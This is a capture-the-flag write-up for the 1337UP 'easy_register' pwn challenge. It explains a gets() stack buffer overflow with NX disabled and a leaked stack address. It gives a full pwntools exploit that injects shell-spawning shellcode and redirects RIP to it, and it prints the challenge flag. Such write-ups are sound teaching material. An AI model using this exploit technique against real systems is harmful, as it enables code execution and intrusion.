 ```yaml
---
title: 1337UP CTF pwn-easyregister
author: jopraveen
date: 2022-03-13
categories: [1337UP]
tags: [pwn]
---
```


## Easy Register

![](https://i.imgur.com/urPqzh3.png)

- First let's download and analyze the binary

#### Info
- ELF 64-bit executable
- Dynamically linked
- Not stripped

**checksec:**

![](https://i.imgur.com/FLpgy9B.png)
- The Stack is executable because NX is disabled
- First let's run the binary and see what it gives

#### Analyzing

```js
➜  pwn  ./easy_register 
  _ _______________ _   _ ____  
 / |___ /___ /___  | | | |  _ \ 
 | | |_ \ |_ \  / /| | | | |_) |
 | |___) |__) |/ / | |_| |  __/ 
 |_|____/____//_/   \___/|_|    
                                
[i] Initialized attendee listing at 0x7ffd0421cac0.
[i] Starting registration application.

Hacker name > jopraveen

[+] Registration completed. Enjoy!
[+] Exiting.
```
- We have a leak `0x7ffd0421cac0`
- Most likely, this will be the starting address of our buffer 
- Then we're prompted to give our name
- May be there's a buffer overflow?
- Let's decompile this binary and see what it does :D

![](https://i.imgur.com/AR1b2AI.png)
- Cool, they're using gets and it's vulnerable to buffer overflow
- Find the offset to Instruction pointer (I didn't mention it in the post because it's very easy)
- Now let's write our exploit

```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')
```
- First let's store the leak in a variable

```python
payload = asm(shellcraft.sh()) # shellcode
payload += b'A'*(88 - len(payload)) # junk
payload += p64(stack_buffer) # buffer base address
```
- Let's put our shellcode at the beginning and fill some junk until RIP
 
*Note: Offset to RIP is **88*** 

- Finally let's overwrite the Instruction pointer with the leaked value (our input buffer's starting address)

### Full exploit
```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')

payload = asm(shellcraft.sh())
payload += b'A'*(88 - len(payload))
payload += p64(stack_buffer)

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/XzfYQ6L.png)
- We got our flag `1337UP{Y0u_ju5t_r3g15t3r3d_f0r_50m3_p01nt5}`
    
    
    
